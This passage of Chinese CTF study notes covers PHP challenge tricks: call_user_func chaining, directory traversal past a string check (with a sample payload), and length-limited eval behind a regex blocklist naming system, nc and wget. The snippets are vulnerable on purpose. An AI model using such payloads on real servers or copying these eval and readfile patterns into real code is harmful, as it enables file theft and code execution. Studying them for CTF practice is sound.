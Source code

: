 示例：（来自`CTFSHOW`）

```php
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}



function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

## 目录穿越

有的时候会使用目录穿越的方式绕过，比如会要求字符串长度、字符串出现在指定位置等等。

要注意，目录穿越的时候可以穿越到不存在的目录，再往回穿越。

示例：

```php
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

简单阅读代码就是要让`cftshow`出现在要读取的文件的非开头位置。

一个可能的`payload`：

```php
?f=/ctfshow/../../../../../../var/www/html/flag.php
```

这里`ctfshow`目录是不存在的，但仍然可以访问到`flag.php`。

## 字符串截断-变量覆盖

这里主要是针对某些情况下的`RCE`被限定字符长度。先上示例：

```php
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```
